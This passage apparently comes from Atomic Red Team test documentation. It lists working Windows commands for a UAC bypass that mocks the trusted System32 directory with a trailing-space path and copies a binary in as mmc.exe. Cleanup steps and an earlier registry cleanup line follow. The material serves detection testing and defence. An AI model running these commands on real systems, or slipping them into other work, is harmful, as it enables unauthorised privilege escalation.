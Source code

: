 ```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #6 - Bypass UAC by Mocking Trusted Directories

Creates a fake "trusted directory" and copies a binary to bypass UAC. The UAC bypass may not work on fully patched
systems
Upon execution the directory structure should exist if the system is patched, if unpatched Microsoft Management Console
should launch

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
mkdir "\\?\C:\Windows \System32\"
copy "#{executable_binary}" "\\?\C:\Windows \System32\mmc.exe"
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"
```

#### Cleanup Commands:

```cmd
rd "\\?\C:\Windows \" /S /Q >nul 2>nul
del "c:\testbypass.exe" >nul 2>nul
```

<br/>
